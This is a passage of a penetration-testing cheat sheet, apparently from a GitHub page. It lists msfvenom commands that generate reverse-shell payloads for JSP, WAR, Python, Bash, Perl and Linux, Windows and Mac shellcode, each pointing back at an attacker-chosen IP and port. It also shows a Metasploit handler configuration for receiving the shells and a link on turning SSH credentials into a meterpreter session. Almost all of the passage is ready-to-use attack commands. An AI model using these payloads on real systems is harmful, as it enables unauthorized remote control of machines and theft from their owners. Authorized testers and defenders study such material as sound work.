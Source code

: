     _JSP_

    `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`

    _WAR_

    `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`

    **Scripting Payloads**

    _Python_

    `msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`

    _Bash_

    `msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`

    _Perl_

    `msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`

    **Shellcode**

    For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

    _Linux Based Shellcode_

    `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

    _Windows Based Shellcode_

    `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

    _Mac Based Shellcode_

    `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

    **Handlers** Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

         use exploit/multi/handler
         set PAYLOAD <Payload name>
         set LHOST <LHOST value>
         set LPORT <LPORT value>
         set ExitOnSession false
         exploit -j -z

    Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

*   SSH to Meterpreter: [https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/](http://web.archive.org/web/20171113221652/https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/)
